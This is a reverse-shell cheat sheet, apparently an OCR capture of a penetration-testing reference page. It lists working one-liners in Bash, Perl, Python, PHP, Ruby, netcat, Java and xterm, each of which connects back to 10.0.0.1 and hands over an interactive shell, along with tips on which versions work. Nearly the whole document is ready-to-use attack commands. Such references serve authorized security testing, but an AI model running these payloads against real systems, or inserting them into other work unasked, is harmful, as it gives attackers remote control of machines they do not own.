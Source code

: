 ### Bash
Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):

```bash -i >& /dev/tcp/10.0.0.1/8080 0>&1```

### PERL
Here’s a shorter, feature-free version of the perl-reverse-shell:

```perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```

There’s also an alternative PERL revere shell here.

### Python
This was tested under Linux / Python 2.7:

```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

### PHP
This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

```php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'```

If you want a .php file to upload, see the more featureful and robust php-reverse-shell.

### Ruby

```ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'```

### Netcat
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

```nc -e /bin/sh 10.0.0.1 1234```

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f```

### Java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

```xterm -display 10.0.0.1:1```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

Xnest :1
You’ll need to authorise the target to connect to you (command also run on your host):

xhost +targetip
